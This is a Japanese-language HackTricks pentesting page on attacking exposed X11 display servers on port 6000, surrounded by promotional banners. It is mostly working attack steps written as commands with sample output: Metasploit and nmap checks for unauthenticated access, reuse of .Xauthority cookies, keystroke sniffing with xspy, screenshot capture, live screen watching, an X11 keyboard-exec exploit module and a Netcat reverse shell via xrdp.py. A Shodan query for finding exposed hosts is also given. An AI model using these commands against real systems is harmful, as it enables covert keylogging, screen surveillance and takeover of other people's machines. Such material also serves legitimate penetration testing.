




# 6000 - Pentesting X11

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？**HackTricksにあなたの会社を広告したいですか？** または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロードしたいですか？** [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**に**フォローしてください。**
* **ハッキングのコツを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks)と[**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>

<figure><figcaption></figcaption></figure>

[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy)サーバーに参加して、経験豊富なハッカーやバグバウンティハンターとコミュニケーションを取りましょう！

**ハッキングの洞察**\
ハッキングのスリルと挑戦に焦点を当てたコンテンツに参加する

**リアルタイムハックニュース**\
リアルタイムのニュースと洞察を通じて、速いペースのハッキングの世界を最新の状態に保つ

**最新のアナウンスメント**\
新しいバグバウンティの開始や重要なプラットフォームの更新情報を入手する

**[**Discord**](https://discord.com/invite/N3FrSbmwdy)に参加して、今日からトップハッカーと協力しましょう！**

## 基本情報

X Window System（通称X）は、UNIXベースのオペレーティングシステムで一般的なビットマップディスプレイ用のウィンドウシステムです。XはGUIベースの環境のための基本的なフレームワークを提供します。Xはユーザーインターフェースを強制しません - 個々のプログラムがこれを処理します。\
出典: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

**デフォルトポート:** 6000
```
PORT       STATE   SERVICE
6000/tcp   open    X11
```
## 列挙

**匿名接続**の確認：
```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```
#### ローカル列挙

ユーザーのホームフォルダにあるファイル **`.Xauthority`** は、**X11の認証に** **使用されます**。[**こちら**](https://stackoverflow.com/a/37367518)から：
```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```
> MIT-magic-cookie-1: 128ビットのキー（“cookie”）を生成し、\~/.Xauthority（またはXAUTHORITY環境変数が指す場所）に保存します。クライアントはそれをサーバーに平文で送信します！サーバーはこの“cookie”のコピーを持っているかどうかを確認し、持っていれば接続が許可されます。キーはDMXによって生成されます。


**cookieを使用する**ためには、環境変数を設定する必要があります: **`export XAUTHORITY=/path/to/.Xauthority`**


#### ローカル列挙セッション
```bash
$ w
23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```
例では、`localhost:0` は xfce4-session を実行していました。

## 接続の確認
```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```
## キーロギング

[xspy](http://tools.kali.org/sniffingspoofing/xspy) を使用してキーボードのキーストロークを盗聴します。

サンプル出力：
```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
## スクリーンショットのキャプチャ
```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```
## リモートデスクトップビュー

参照元: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
```
./xrdp.py <IP:0>
```
```markdown
次に、xwininfoを使用してウィンドウのIDを見つける必要があります。
```
```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```
**XWatchwin**

**ライブビューイング**には以下の使用が必要です
```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```
## シェルを取得
```
msf> use exploit/unix/x11/x11_keyboard_exec
```
他の方法:

**リバースシェル:** XrdpはNetcatを介してリバースシェルを取得することもできます。以下のコマンドを入力します:

**./xrdp.py \<IP:0> –no-disp**



新しいコントロールパネルが表示され、以下に示すようにR-shellオプションが見えます:



ローカルシステムでポート5555でNetcatのリスニングモードを開始します。これは以下に示されています:


次に、IPとポートを追加し、R-Shellを選択します。これは以下に示されています:



以下に示すように、完全なシステムアクセスを得ることができます:





## Shodan

* `port:6000 x11`

<figure><figcaption></figcaption></figure>

経験豊富なハッカーやバグバウンティハンターとコミュニケーションを取るために、[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy)サーバーに参加しましょう！

**ハッキングの洞察**\
ハッキングのスリルと課題に焦点を当てたコンテンツに参加する

**リアルタイムハックニュース**\
リアルタイムのニュースと洞察を通じて、速いペースのハッキングの世界を最新の状態に保つ

**最新のアナウンス**\
最新のバグバウンティの開始と重要なプラットフォームの更新情報を入手する

[**Discord**](https://discord.com/invite/N3FrSbmwdy)に参加して、今日からトップハッカーと協力しましょう！

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？**HackTricksでの広告を見たいですか？** または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロードしたいですか？** [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを手に入れましょう。
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**にフォローしてください。**
* [**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks)や[**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有しましょう。

</details>
